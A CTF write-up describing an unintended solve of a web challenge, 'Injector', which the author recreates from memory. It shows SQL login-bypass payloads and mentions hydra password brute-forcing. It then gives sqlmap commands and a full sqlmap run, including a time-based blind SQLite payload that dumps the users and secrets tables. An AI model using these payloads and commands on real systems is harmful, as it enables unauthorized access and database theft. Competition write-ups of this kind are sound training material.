 ```yaml
---
title: Injector
author: josephkimiri
date: 2025-08-11 11:04:00 +0300
categories: [writeups, Web]
tags: [Chasing Flags Arise CTF, ctfs, Blind SQLi ]
image: /assets/img/blog/arise.png
---
```



## Unintended Solution – CTF Challenge Write-up

> *Apologies for publishing this write-up after the CTF. The challenge creators have since taken the challenges offline, so I’ll be recreating this from memory.*  
> **Note:** Solved using an unintended method.

---

### Challenge Summary
The challenge description (paraphrased) stated:

> *"Chain the vulnerabilities to obtain the flag."*

When visiting the provided [challenge link](http://52.209.211.118:6004/), we were presented with a **login page**.

---

### Initial Attempts
I started by testing common login bypass techniques, such as:

```sql
'or 1=1-- -
```
However, each attempt resulted in a Connection error. message.

### Changing Approach

After some thought, the next logical step was brute-forcing the login.
Why? Because at that point, it was the only card left in my deck.

>> According to the official [write-up](https://blog.chasingflags.co.ke/guides/injector/), the intended approach was to use LDAP injection to bypass authentication.

### I decided to brute-forcing the Login

I used hydra for the brute force attack, but if you have Burp Suite Pro, you could achieve the same with Burp Intruder.

As you might know, having a valid username significantly increases the success rate.
In many web applications, default usernames like Administrator or admin are common.

In this case, I guessed admin — and it worked on the first try.
The password was masked behind five asterisks:

```md
*****
```

![simulation of how hydra is used for bruteforcing Login pages](/assets/img/blog/image.png)

With that password, I logged in as admin. `Image Courtesy of my friends Michael Khanda & c1ph3rbnuk cause I did not take any`

Here, we are given an input field to change the Access ID,

![Image Courtesy of Michael Khanda](/assets/img/blog/image-2.png)

![Img Courtesy of c1ph3rbnuk ](/assets/img/blog/image-1.png)

After experimenting with a few payloads, including XSS and SSTI, I discovered the application was vulnerable to SQL injection. When I modified the user ID with the payload `'or 1=1-- -`, it returned an empty user ID, whereas `'or 1=2-- -` produced no change.

Next, it was time for `sqlmap` to come to the rescue. Initially, I ran into issues with sqlmap failing to detect the backend DBMS though it eventually picked the `sqlite` database.

I first saved the request as a `req.txt` file to carry with me the authentication tokens.

![req.txt](/assets/img/blog/image-3.png)

Now using this command `sqlmap -r req.txt --level=5 --risk=3 --time-sec=10`, I was able to get the the name of the database `SQLite_masterdb`

The only thing left was to dump the secret..I however dumped everything just to see the other user we missed during `hydra` bruteforce.

```sh
➜  web sqlmap -r req.txt -D SQLite_masterdb --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:13:51 /2025-08-09/

[12:13:51] [INFO] parsing HTTP request from 'req.txt'
[12:13:51] [INFO] resuming back-end DBMS 'sqlite'
[12:13:51] [INFO] testing connection to the target URL
got a 302 redirect to 'http://52.209.211.118:6003/'. Do you want to follow? [Y/n] n
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: new_username (POST)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: new_username=kaka' AND 3133=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- ltNL
---
[12:13:53] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[12:13:53] [INFO] fetching tables for database: 'SQLite_masterdb'
[12:13:53] [INFO] fetching number of tables for database 'SQLite_masterdb'
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] y
.............................. (done)
[12:14:01] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
2
[12:14:12] [INFO] retrieved:
[12:14:16] [INFO] adjusting time delay to 4 seconds due to good response times
users
[12:15:26] [INFO] retrieved: secrets
[12:16:54] [INFO] retrieved: CREATE TAB
[12:19:21] [ERROR] invalid character detected. retrying..
[12:19:21] [WARNING] increasing time delay to 5 seconds
LE user
[12:21:26] [ERROR] invalid character detected. retrying..
[12:21:26] [WARNING] increasing time delay to 6 seconds
s (username TEXT)
[12:25:56] [INFO] fetching entries for table 'users'
[12:25:56] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[12:25:56] [INFO] retrieved: 2
[12:26:05] [INFO] retrieved: admin
[12:27:06] [INFO] retrieved: bob
Database: <current>
Table: users
[2 entries]
+----------+
| username |
+----------+
| admin    |
| bob      |
+----------+

[12:27:44] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/j053/.local/share/sqlmap/output/52.209.211.118/dump/SQLite_masterdb/users.csv'
[12:27:44] [INFO] retrieved: CREATEpersonnel TABLE secrets (flag TEXT)
[12:34:57] [INFO] fetching entries for table 'secrets'
[12:34:57] [INFO] fetching number of entries for table 'secrets' in database 'SQLite_masterdb'
[12:34:57] [INFO] retrieved: 1
[12:35:02] [INFO] retrieved: ctf{chasing_flags_injections_everywhere}
Database: <current>
Table: secrets
[1 entry]
+------------------------------------------+
| flag                                     |
+------------------------------------------+
| ctf{chasing_flags_injections_everywhere} |
+------------------------------------------+

[12:45:30] [INFO] table 'SQLite_masterdb.secrets' dumped to CSV file '/home/j053/.local/share/sqlmap/output/52.209.211.118/dump/SQLite_masterdb/secrets.csv'
[12:45:30] [INFO] fetched data logged to text files under '/home/j053/.local/share/sqlmap/output/52.209.211.118'

[*] ending @ 12:45:30 /2025-08-09/

➜
```
{: .nolineno }


That was it. I was happy to have blooded the challenge..cheers to the author, I got the 3k plus airtime...thanks Chasingflags for the awesome CTF.
